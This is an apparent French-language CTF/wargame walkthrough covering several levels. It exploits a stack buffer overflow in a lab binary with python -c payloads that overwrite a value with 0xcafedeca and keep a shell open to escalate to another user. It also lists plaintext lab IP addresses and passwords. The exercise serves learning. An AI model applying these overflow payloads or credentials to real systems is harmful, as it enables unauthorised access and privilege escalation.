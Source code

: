 # IP: user@178.62.12.176
# MDP: admin1234


## user - admin1234

Il y a un suel fichier uqi est un executable.
On le lit avec la commande **cat** et on s'aperçoit qu'il y a dedans: `MandragoreBingo, le pass de kirby est defdefdefdef`

## kirby : ssh kirby@localhost - defdefdefdef

Il y a un executable pour lequel il est nécessaire de remplacer la valeur **0x41414141** par **0xcafedeca!**<br/>
De plus, il faut insérer 20 char avant de pouvoir exploter le buffer overflow.<br/>
On se sert de la commande suivante pour pouvoir insérer les données:
>python -c "print('A'*20)" | ./l1

On va maintenant chercher à faire apparaiter cafedeca au lieu de 0x4141..

>'\x42' => nous mets 42 dans à la palce de 41, il n'y a donc pas de '+' à faire.

Essayons de mettre ca dans la dernier position:
>python -c "print('A'*20 + '\xca')" | ./l1

Nous donne:
> val: 0x414100ca

On va donc maitnenant remplacer 1 à 1 pour faire apparaitre cafedeca
>python -c "print('A' * 20 + '\xca' + '\xde' + '\xfe' + '\xca')" | ./l1

## Utilité du dépassement de mémoire:

On va maintenant pour ajouter une commande bash de manière à pouvoir utiliser un 'shell' grâce au programme.
En ajoutant la commande cat, on va pouvoir utiliser des commandes directement vient la suite de l'application.

Voici la commande à utiliser:
>(python -c "print('A'*20+'\xca\xde\xfe\xca')";cat) | ./l1

On se renseigne donc sur ce qu'il y a.<br/>
Avec la commande ls on se rend compte que l'on a pas les droits.
On va donc chercher à connaitre notre identité de shell.

>id

on voit qu'on tout nous donne kirby, qui est bien notre compte actuel mais que le 'euid' est k1. On va donc maintenant ouvrir le dossier de k1. On lit un fichier pass contenant:<br/>
>**k1ornot**<br/>

On passe donc à la suite

## k1 : k1ornot

### Variable d'environnement

- export MAVAR=VALEUR pour la créer
- echo $MAVAR pour l'afficher
- unset ACISSI pour la supprimer
